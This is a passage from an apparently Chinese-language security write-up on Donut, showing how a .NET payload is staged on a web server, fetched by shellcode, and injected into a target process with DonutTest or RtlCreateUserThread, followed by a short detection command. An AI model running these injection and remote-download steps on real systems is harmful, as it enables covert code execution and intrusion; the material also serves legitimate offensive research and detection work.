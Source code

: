 生成文件payload.bin和YX63F37T

将YX63F37T上传到http://192.168.1.1

接下来通过注入shellcode的方式执行payload.bin，payload.bin会从http://192.168.1.1/YX63F37T下载实际的shellcode并执行

### 3、查看进程信息

这里使用子项目ProcessManager

列出进程后，Managed选项如果为True，代表该进程已经加载CLR

ProcessManager支持对指定进程进行筛选，例如只查看notepad.exe的进行信息，命令如下：

```
ProcessManager.exe --name notepad
```

### 4、注入shellcode

假设目标进程为3306

#### (1)使用子项目DonutTest

将payload.bin作base64编码并保存在剪贴板，powershell命令如下：

```
$filename = "payload.bin"
[Convert]::ToBase64String([IO.File]::ReadAllBytes($filename)) | clip
```

替换DonutTest工程中对应的变量，编译成功后执行如下命令：

```
DonutTest.exe 3306
```

#### (2)使用RtlCreateUserThread

https://github.com/TheWover/donut/blob/master/payload/inject.c

命令如下：

```
inject.exe 3306 payload.bin
```

### 5、检测

列出加载了CLR但不是.NET程序集的进程，命令如下：

```
tasklist /m msco*
```

## 0x05 利用分析
---

Donut能够将.NET程序集转换为shellcode
